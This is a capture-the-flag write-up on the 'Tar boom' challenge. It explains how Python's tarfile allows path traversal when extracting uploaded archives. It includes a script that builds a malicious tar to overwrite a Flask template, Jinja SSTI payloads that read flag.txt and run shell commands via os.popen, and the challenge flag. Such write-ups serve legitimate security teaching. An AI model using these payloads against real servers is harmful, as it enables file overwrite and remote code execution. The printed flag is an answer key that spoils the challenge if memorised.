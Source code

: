 ```yaml
---
title: Tar boom
author:
description: Within the Louvre Museum's intranet, there is a service that allows trusted users to upload .tar files and view their content. However, this service has been exploited by a hacker. He was able to retrieve crucial information about the Louvre's security, hidden within the flag.txt.
categories:
    - web
year: 2025
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** We are given a small **Python Flask** web application allowing the upload of tar archives being unpacked by the backend.
    **- Vulnerability:** The used **Python** module **tarfile** is vulnerable to path traversal attacks via the file names of the extracted files, allowing the overwrite of arbitrary files.
    **- Exploitation:** Overwriting the `result.html` template containing an **SSTI** payload results in **RCE**.

# 1. Introduction<a id="introduction"></a>
Connecting to the server, we are greeted by a simple landing page inviting us to upload a tar archive:

![landing page](ctf/writeups/dvctf/tarboom/landing.png "landing page")

Uploading a tar archive with random test files leads us to the following overview showing the tree of files and directories the archive consists of:

![uploaded benign tar archive](ctf/writeups/dvctf/tarboom/normal_upload.png "uploaded benign tar archive")

# 2. Reconnaissance<a id="reconnaissance"></a>
Analyzing the code reveals that only tar files are accepted. Trying to upload any other file format will be rejected. During upload, the backend will unpack the archive with the **Python** module **tarfile**:

```python
def extract_tar(tar_path, extract_dir):
    try:
        with tarfile.open(tar_path, 'r:*') as tar:
            print(f"Extracting '{tar_path}' to '{extract_dir}'...")
            tar.extractall(path=extract_dir, filter='fully_trusted')
            print("Extraction completed successfully.")
    except tarfile.TarError as e:
        print(f"Error: Failed to extract the TAR file. {e}")
```

This processing is needed to print out the file tree after the upload. The extracted files are saved at `uploads/<tar-archive-name>`.

# 3. Vulnerability Description<a id="vulnerability description"></a>
The use of the **Python** module **tarfile** is well known for a directory traversal vulnerability and even got its own [CVE](https://nvd.nist.gov/vuln/detail/cve-2007-4559). In the code, the `extractall` function simply concatenates the current path with the file name:

```python
dirpath = os.path.join(path, tarinfo.name)
```

So by simply having a file name with several `../` as a prefix will result in arbitrary file write. To make it easier to generate this kind of archive, we can use the following script, adding the content of specific files with a name of your choice to your malicious tar archive:

```python
import tarfile

overwrites = [
    ('../../templates', 'result.html'),
]

with tarfile.open('malicious.tar', 'w') as tar:
    for directory, filename in overwrites:
        tar.add(filename, arcname=f'{directory}/{filename}')
```

This vulnerability was never fixed and probably will never be fixed. The previous maintainer even wrote an [article](https://www.gustaebel.de/lars/CVE-2007-4559.html) about the problems around fixing this vulnerability. This is not the only library being vulnerable to this kind of attack. There is a whole research around this topic and you might be interested in reading further in [Zip Slip Snyk](https://security.snyk.io/research/zip-slip-vulnerability) and [Zip Slip Github](https://github.com/snyk/zip-slip-vulnerability).

# 4. Exploitation<a id="exploitation"></a>
Although exploiting this vulnerability seems easy, you have to be careful picking a target for the arbitrary file write. You might think we could just simply overwrite the `scripts/tarExtract.py` file and thus serving our own **Python** code, which will be executed when this functionality is called. Another idea could be exploiting the **Python PATH** by simply adding an `os.py` file right next to the `app.py`. But sadly, both of these ideas won't work out as **Python** will always immediately load the needed modules into the memory. So once the **Python** modules are loaded, replacing the corresponding files won't do anything. As a side note, if the **Flask** server was started with `debug=True`, the aforementioned approaches will work, as the server will restart and reload the modules when file changes are detected. But in this challenge, this config is turned off. Luckily enough, **Python** will only lazy load all of the code. This means that only when needed for the first time, the modules are loaded into memory. Thus we have to find a file that is not immediately needed when connecting to the server. In this case, only the `result.html` is not immediately loaded. To get an arbitrary file read, which is enough to obtain the flag, we can simply extend the template with an **SSTI** as follows:

```html
<pre>
{{ get_flashed_messages.__globals__.__builtins__.open("/app/flag.txt").read() }}
{% for line in tree %}
{{ line }}
{% endfor %}
</pre>
    <a href="/">Upload another backup</a>
</div>
```

This will give us the flag:

![flag extracted](ctf/writeups/dvctf/tarboom/flag.png "flag extracted")

We can even escalate this further to **RCE** to fully pwn the web server with `{{ get_flashed_messages.__globals__['os'].popen('ls -alps').read() }}`:

![rce](ctf/writeups/dvctf/tarboom/rce.png "rce")

But keep in mind you will only be able to change the `result.html` template via the very first malicious upload, as afterwards, also this template is already loaded into memory by **Python**.


# 5. Mitigation<a id="mitigation"></a>
Although you might think you are safe because you got a filter, only allowing specific file extensions, won't be enough. Processing user input with any module should always be enjoyed with caution. Make sure to read the documentation and especially the security warnings to prevent vulnerabilities like in this challenge.

# 6. Flag<a id="flag"></a>
DVCTF{rWyjzMYiQ2Jgx8wLP8kA}

# 7. References<a id="references"></a>
- https://security.snyk.io/research/zip-slip-vulnerability
- https://github.com/snyk/zip-slip-vulnerability
